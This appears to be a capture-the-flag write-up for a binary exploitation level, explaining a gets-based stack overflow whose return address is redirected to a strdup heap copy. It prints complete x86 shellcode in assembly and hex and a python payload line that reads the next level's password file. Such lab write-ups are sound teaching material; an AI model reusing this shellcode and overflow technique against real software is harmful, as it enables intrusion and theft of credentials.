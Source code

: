 This one was a bit harder ! 

We have a binary file `./level2`, when we execute it, it reads stdin. If we write too much characters, the program segfaults.

By reading disassembly in Ghidra, we can see the `main` and `p` functions.  

The `p` function just reads stdin with gets in a buffer[76] on the stack ; then there's a check that the saved EIP on the stack doesn't contain an address starting with 0xB. 
This means that we can't make it point to the stack, the env or the libc for example.
Another thing of note is that the buffer is given to `strdup` at the end of the function (why? lol)

Since we can't overwrite EIP to point to the stack, we can instead point to the heap (thanks strdup for being here).
We can see that the return value of `strdup` is always the same, so all we need to do is just write this address on EIP.
Then, we'll be able to run anything that we put in the buffer. 

We write a shellcode. We could have run `execve("/bin/sh")` but we prefered write a shellcode that runs `/bin/cat /home/user/level3/.pass`.
```asm
xor    %edx,%edx   ; edx = 0 => env = NULL
xor    %eax, eax   ; eax = 0
push   %edx        ; \0
push   $0x73736170 ; pass
push   $0x2E2F2F33 ; 3//.
push   $0x6C657665 ; evel
push   $0x6C2F7265 ; er/l
push   $0x73752F65 ; e/us
push   $0x6D6F682F ; /hom
mov    %esp,%ecx   ; pointeur vers arg
push   %eax        ; \0
push   $0x7461632F ; /cat
push   $0x6E69622F ; /bin
mov    %esp,%ebx   ; pointeur vers path
push   %eax        ; NULL
push   %ecx        ; "/home/user/level3/.pass"
push   %ebx        ; "/bin/cat"
mov    %esp,%ecx   ; pointeur vers tableau d'args
mov    $0xb,%al    ; eax = 0x0b => execve
int    $0x80       ; interrupt syscall, run execve
```

Here is visualization of the stack at the end of our shellcode :
```
| 0x?? | <- "/bin/cat" <- ecx
| 0x?? | <- "/home/user/level3/.pass"
| NULL |
| /bin | <- ebx
| /cat |
| 0000 |
| /hom |
| e/us |
| er/l |
| evel |
| 3//. |
| pass |
```

After compiling the shellcode with `gcc -c shellcode.s` and extracting the hexadecimal representation with `objdump -S shellcode.o` we end up with this: 
```
\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80
```

Now we extract the address returned by `strdup` with GDB. We calculate the offset needed to overwrite EIP and we can craft the payload :
```bash
python -c 'print "\x31\xd2\x31\xc0\x52\x68\x70\x61\x73\x73\x68\x33\x2f\x2f\x2e\x68\x65\x76\x65\x6c\x68\x65\x72\x2f\x6c\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" + (80-59)*"\x00" + "\x08\x04\xa0\x08"[::-1]'
```
Just pipe this in `./level2` and we get the flag! Tadaaaaaa!

(We also can use this shellcode : https://shell-storm.org/shellcode/files/shellcode-575.html)
